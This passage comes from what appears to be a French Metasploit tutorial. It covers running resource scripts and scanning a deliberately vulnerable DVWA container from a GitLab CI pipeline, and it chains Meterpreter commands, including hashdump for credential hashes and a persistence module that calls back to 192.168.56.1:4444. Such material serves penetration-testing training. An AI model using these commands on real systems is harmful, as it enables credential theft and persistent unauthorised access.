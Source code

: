 ### Lancer le script :

```bash
msfconsole -r scan_and_exploit.rc
```

💡 Vous pouvez enregistrer l’output automatiquement avec :

```bash
msfconsole -r scan_and_exploit.rc -o rapport.log
```

---

## 4. Ajouter des post-exploitations automatiques

Vous pouvez **enchaîner des actions Meterpreter** via `sessions -i` et `run`.

Ajoutez à la fin de votre script :

```
sessions -i 1
getuid
hashdump
run persistence -X -i 60 -p 4444 -r 192.168.56.1
exit
```

⚠️ Le numéro de session (`1`) dépend du contexte. Pour automatiser, préférez l’option `-z` + script séparé de post-exploitation.

---

## 5. Intégrer Metasploit dans un pipeline CI/CD (ex: GitLab CI)

### 🎯 Objectif : Tester automatiquement une image Docker vulnérable

#### 1️⃣ Dockerfile d’image vulnérable (dans repo GitLab)

```Dockerfile
FROM vulnerables/web-dvwa
EXPOSE 80
```

#### 2️⃣ `.gitlab-ci.yml` :

```yaml
stages:
  - scan

scan_with_metasploit:
  stage: scan
  image: kalilinux/kali-rolling
  script:
    - apt update && apt install -y metasploit-framework
    - echo "use auxiliary/scanner/http/http_version" > test.rc
    - echo "set RHOSTS 172.17.0.2" >> test.rc
    - echo "set RPORT 80" >> test.rc
    - echo "run" >> test.rc
    - msfconsole -r test.rc -q -o resultat.txt
  artifacts:
    paths:
      - resultat.txt
```
